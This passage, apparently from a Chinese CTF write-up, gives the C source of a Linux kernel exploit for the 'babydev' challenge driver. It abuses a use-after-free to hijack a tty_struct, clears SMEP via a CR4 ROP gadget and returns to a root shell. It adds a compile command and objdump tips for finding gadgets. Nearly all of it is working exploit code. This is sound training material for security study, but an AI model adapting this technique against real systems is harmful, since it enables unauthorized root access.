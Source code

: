 ```

int main(){
    int fd1,fd2,fd3,i=0;
    size_t fake_tty_struct[4] = {0};
    size_t rop[20]={0};
    save_stats();

    rop[i++] = 0xffffffff810d238d;      //pop_rdi_ret
    rop[i++] = 0x6f0;
    rop[i++] = 0xffffffff81004d80;      //mov_cr4_rdi_pop_rbp_ret
    rop[i++] = 0x6161616161;
    rop[i++] = (size_t)get_root;
    rop[i++] = 0xffffffff81063694;      //swapgs_pop_rbp_ret
    rop[i++] = 0x6161616161;
    rop[i++] = 0xffffffff814e35ef;      // iretq; ret;
    rop[i++] = (size_t)shell;
    rop[i++] = user_cs;
    rop[i++] = user_eflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    for(i = 0; i < 30; i++){
        fake_tty_opera[i] = 0xffffffff8181bfc5;
    }
    fake_tty_opera[0] = 0xffffffff810635f5;     //pop rax; pop rbp; ret;
    fake_tty_opera[1] = (size_t)rop;
    fake_tty_opera[3] = 0xffffffff8181bfC5;     // mov rsp,rax ; dec ebx ; ret
    fake_tty_opera[7] = 0xffffffff8181bfc5;

    fd1 = open("/dev/babydev",O_RDWR);
    fd2 = open("/dev/babydev",O_RDWR);
    ioctl(fd1,0x10001,0x2e0);
    close(fd1);
    fd3 = open("/dev/ptmx",O_RDWR|O_NOCTTY);
    read(fd2, fake_tty_struct, 32);
    fake_tty_struct[3] = (size_t)fake_tty_opera;
    write(fd2,fake_tty_struct, 32);
    write(fd3,"cc-sir",6);                      //触发rop
    return 0;
}
```
编译
```
gcc poc.c -o poc -w -static
```
#### P.S
找mov_cr4_rdi_pop_rbp_ret等这些gadget的小技巧,如果使用ropper或ROPgadget工具太慢的时候,可以先试试用objdump去找看能不能找到:
```
objdump -d vmlinux -M intel | grep -E "cr4|pop|ret"
```
```
objdump -d vmlinux -M intel | grep -E "swapgs|pop|ret"
```